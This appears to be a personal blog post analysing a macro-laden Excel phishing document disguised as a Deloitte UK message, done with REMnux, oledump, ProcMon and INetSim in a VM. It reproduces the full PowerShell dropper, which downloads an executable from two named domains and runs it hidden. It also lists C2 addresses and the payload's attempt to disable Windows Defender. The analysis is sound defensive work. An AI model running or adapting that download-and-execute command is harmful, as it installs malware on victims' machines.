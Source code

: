 # Happy Little Maldocs

For my first post, I though I might share something that seems to be making the rounds lately (warning: this may be a little long-winded as I explain my analysis process for the first time). With social engineering being one of the most prevalent ways to spread malware, this sample takes full advantage. This particular campaign seems to disguise itself as Deloitte UK attempting to get the victim to open an Excel document. Here is the VirusTotal report for that document: ![VirusTotal Report](/assets/images/happy_maldocs/hlm_vt.jpg)

A few key points from that report are:
1. The document opens a shell and possibly runs other applications
2. Makes use of macros
3. Automatically runs commands when the file is opened

One of my favorite tools to use for examining malicious documents is [REMnux by Lenny Zeltser](https://remnux.org/). REMnux comes pre-loaded with a bunch of awesome tools, and one of the first ones I use to examine malicious documents is [oledump.py by Didier Stevens](https://blog.didierstevens.com/programs/oledump-py/). This tool will tell you a lot about the objects that make up a document and is especially useful for finding malicious components. So let's get started!

The first command we'll use is the following:

`oledump.py sample.xls`

![oledump.py results on Remnux](/assets/images/happy_maldocs/remnux_oledump.JPG)

 This tells us that OLE streams 7,8,9,10,18,20,21,22 have VB script in them, so let's extract that using this command, where STREAM_NUMBER represents one of the previously listed values:

`oledump.py -v -s STREAM_NUMBER sample.xls`

 With the VB extracted, we should now be able to find the malicious function. Admittedly, I am not as adept at Visual Basic as I could be, but I know enough to know that a shell call shouldn't be here!

![VisualBasic calling shell](/assets/images/happy_maldocs/vb_shell_call.JPG)

Even without knowing much VB, it is clear that this Excel file opens a shell of some sort, so let's run it in a VM to verify. Thanks to Microsoft, you can get free 90-day virtual images of every OS since Windows 7 (all in 32-bit)! I used a Windows 7 VM loaded with Office, Sysmon, and I threw ProcMon on there for good measure. Once loaded, the document indeed opens a shell, noted by ProcMon's capture:
![ProcMon capturing Excel creating a shell](/assets/images/happy_maldocs/procmon_excel_launch_powershell.JPG)

```powershell powershell "'powershell ""function better([string] $qqqqqqqq_qqqqqq74_qqq){(new-object system.net.webclient).downloadfile($qqqqqqqq_qqqqqq74_qqq,''C:\Users\IEUser\AppData\Local\Temp\work.exe'');start-process ''C:\Users\IEUser\AppData\Local\Temp\work.exe'';}try{better(''http://carasaan.com/conte.ntet'')}catch{better(''http://mustardcafeonline.com/conte.ntet'')}'"" | out-file -encoding ascii -filepath C:\Users\IEUser\AppData\Local\Temp\qeneral.bat; start-process 'C:\Users\IEUser\AppData\Local\Temp\qeneral.bat' -windowstyle hidden"```

So now we can see it attempts to download a file. Using REMnux again, we can setup a server that will deliver the file to the victim VM, allowing us to proceed further. To do this, we have configured REMnux to use a static IP address. Then, we use a handy script, `accept-all-ips start eth0` that configures REMnux to receive all incoming connections. To handle those connections, we use INetSim. I also configured INetSim to deliver the file mentioned in the previous Powershell command, so that when the victim VM sends an HTTP GET request for the file, it will be delivered as if the victim connected to the real domain. The following screenshots show the requests:
![Wireshark showing payload download](/assets/images/happy_maldocs/wireshark_get_payload_and_ip.JPG)

![INetSim results of payload download](/assets/images/happy_maldocs/inetsim_gets.JPG)

You can also see from the above screenshots that something starts attempting to find the victim's IP address. Note: I had configured REMnux to deliver the malware by default, hence the multiple downloads. With my current configuration, the IP address would not be delivered to the victim, so I opened it up to the internet to see what happens once it is able to retrieve the address.

![WireShark showing payload download and TLS outbound connection](/assets/images/happy_maldocs/wireshark_get_ip_to_tls.JPG)

It appears that the sample retrieves the IP address then sets up a TLS connection. Where does it connect to? Luckily Sysmon caught the connections. 

- 23.94.41.215:443
- 185.68.93.117:447

At the same time these connections are happening, the payload attempts to stop and delete the WinDefend service:

![ProcMon showing nasty process trying to stop Windows Defender](/assets/images/happy_maldocs/procmon_stop_windefend.JPG)

Without decrypting the SSL, we can see that there are some large downloads occurring. If you watch while those connections are happening, you also notice that some other files get downloaded to the computer. These consist of modules and configuration files.

![Windows File Explorer output showing modules in their download location](/assets/images/happy_maldocs/modules.JPG)
![Windows File Explorer output showing modules in their download location](/assets/images/happy_maldocs/modules_list.JPG")

There are four modules that get downloaded to the victim's computer:
- injectDll32
- networkDll32
- shareDll32
- systeminfo32

*injectDll32* and *networkDll32* also had configuration files downloaded. These files are under their respective modules' folder names. Each configuration file is named the following:
- dinj
- sinj
- dpost

Well, that's all I have time for this go around. Hopefully this post shows some useful tools that will make malware analysis much easier and gives insight into how this malware performs. In the future I will plan to go a little deeper in the analysis, but for my first post I really just want to get used to writing again. So thanks for taking the time to read!

 The SHA256 hash for this sample is: `71f675a68e937f2cb69e29a3c36726cc2f0940451e364e06e8aa460638d7c50c`

_This post was originally written on 16 Dec 2018. It was moved on 03 Feb 2022._
